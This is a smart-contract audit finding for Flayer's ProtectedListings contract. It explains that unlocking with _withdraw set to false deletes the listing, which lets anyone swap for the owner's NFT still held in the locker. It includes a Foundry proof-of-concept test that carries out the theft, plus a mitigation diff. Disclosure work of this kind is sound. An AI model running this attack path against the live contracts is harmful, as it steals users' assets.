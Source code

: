 Joyous Onyx Grasshopper

High

# Attacker can steal a user's repaid protected listing if the buyer opts to withdraw their asset at another time

### Summary

A user has the option to indicate they wish to withdraw the token they have repaid at another time through the [_withdraw](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/ProtectedListings.sol#L287) parameter in `unlockProtectedListing`. If this is set to false, rather than the token being transferred to the user in the same call, the state variable [canWithdrawAsset](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/ProtectedListings.sol#L321C13-L321C29) is updated to indicate this user is eligible to withdraw this asset at another time. The problem arises because the listings object is deleted and therefore any user can redeem or swap for this token in the locker contract.

### Root Cause

The root cause is in how the protected listings objected is handled when unlocking a protected listing
1. The listing objected is deleted in [_protectedListings](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/ProtectedListings.sol#L314C16-L314C34) when unlocking an asset
2. If the user indicated they wish to withdraw at another time, `canWithdrawAsset` is set to the user's address for that asset and remains in the locker contract
3. Anytime [isListing](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Locker.sol#L438C14-L438C23) is called in the locker contract to check if the asset is listed it will return false because the listing object will no longer exist.
4. Because it is not recognized as a listing but still is held within the locker contract, it can be swapped and redeemed for.

### Internal pre-conditions

1. User has a valid protected listing they wish to unlock
2. Listing still has collateral and isnt eligible for liquidation
3. User is able to repay loan + fees accrued
4. They indicate `_withdraw` = false meaning they wish to withdraw at another time

### External pre-conditions

_No response_

### Attack Path

1. The buyer unlocks the asset and indicates they wish to withdraw at another time
2. Attacker sees the token in the locker without a listing a attached to it
3. Attacker takes a floor token and swaps it for the rarer token or burns the floor amount in collection tokens 
4. Attacker receives the buyers token before they are able to withdraw from the locker

### Impact

A buyer who wishes to unlock their asset can have it stolen and when they attempt to withdraw through [withdrawProtectedListing](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/ProtectedListings.sol#L341C14-L341C38) the transaction will revert as it will no longer be held by the locker.

### PoC

Add the following test to `ProtectedListings.t.sol` and run `forge test --match-path test/ProtectedListings.t.sol --match-test test_CanStealProtectedListing`

```Solidity
function test_CanStealProtectedListing(uint96 _tokensTaken) public {

        uint _tokenId = 0;
        uint _bobTokenId = 1;

        // Set the amount of tokens taken as variable
        vm.assume(_tokensTaken >= 0.1 ether);
        vm.assume(_tokensTaken <= 1 ether - protectedListings.KEEPER_REWARD());

        address payable _owner = users[0];
        address payable bob = users[1];

        // Capture the amount of ETH that the user starts with so that we can compute that
        // they receive a refund of unused `msg.value` when paying tax.
        uint startBalance = payable(_owner).balance;

        // Mint our tokens
        //We can assume that _owner token is rare 
        erc721a.mint(_owner, _tokenId);
        erc721a.mint(bob, _bobTokenId);

        // Create our listing
        vm.startPrank(_owner);
        erc721a.approve(address(protectedListings), _tokenId);
        _createProtectedListing({
            _listing: IProtectedListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: IProtectedListings.ProtectedListing({
                    owner: _owner,
                    tokenTaken: _tokensTaken,
                    checkpoint: 0
                })
            })
        });

        // Confirm the remaining collateral against the listing. We can safely cast the
        // `getListingCollateral` to a uint as we know it will be a positive number in this
        // test case.
        uint expectedCollateral = 1 ether - protectedListings.KEEPER_REWARD() - _tokensTaken;
        assertEq(uint(protectedListings.getProtectedListingHealth(address(erc721a), _tokenId)), expectedCollateral);

        // Approve the ERC20 token to be used by the listings contract to cancel the listing
        locker.collectionToken(address(erc721a)).approve(address(protectedListings), _tokensTaken);

        // Confirm that the user has paid no taxes yet from their ETH balance
        assertEq(payable(_owner).balance, startBalance, 'Incorrect startBalance');

        // Confirm that the ERC20 is held by the user from creating the listing
        assertEq(
            locker.collectionToken(address(erc721a)).balanceOf(_owner),
            _tokensTaken,
            'Incorrect owner collectionToken balance before unlock'
        );

        // Confirm that the expected event is fired
        vm.expectEmit();
        emit ProtectedListings.ListingUnlocked(address(erc721a), _tokenId, _tokensTaken);

        // We can now unlock our listing. As we have done this in a single transaction,
        // the amount of tax being paid won't have increased and should there for just
        // be the amount of loan that we took out.
       // set _withdraw as false to indicate we dont want to withdraw straight away
        protectedListings.unlockProtectedListing(address(erc721a), _tokenId, false);

        vm.stopPrank();

        vm.startPrank(bob);

        //Bob sees the token in the locker contract and swaps it with his
        erc721a.approve(address(locker), _bobTokenId);
        locker.swap(address(erc721a), _bobTokenId, _tokenId);
        assertEq(erc721a.ownerOf(_tokenId), address(bob));

        vm.stopPrank();
    }
```

### Mitigation

I recommend not deleting the listing object until the user has withdrawn their asset when they indicate _withdraw = false. If _withdraw = true then delete the listing right away.

```diff
       if (_withdraw) {
            locker.withdrawToken(_collection, _tokenId, msg.sender);
            emit ListingAssetWithdraw(_collection, _tokenId);
+          delete _protectedListings[_collection][_tokenId];
        } else {
            canWithdrawAsset[_collection][_tokenId] = msg.sender;
        }
```
```diff
    function withdrawProtectedListing(address _collection, uint _tokenId) public lockerNotPaused {
        // Ensure that the asset has been marked as withdrawable
        address _owner = canWithdrawAsset[_collection][_tokenId];
        if (_owner != msg.sender) revert CallerIsNotOwner(_owner);

        // Mark the asset as withdrawn
        delete canWithdrawAsset[_collection][_tokenId];
+      delete _protectedListings[_collection][_tokenId];

        // Transfer the asset to the user
        locker.withdrawToken(_collection, _tokenId, msg.sender);
        emit ListingAssetWithdraw(_collection, _tokenId);
    }
```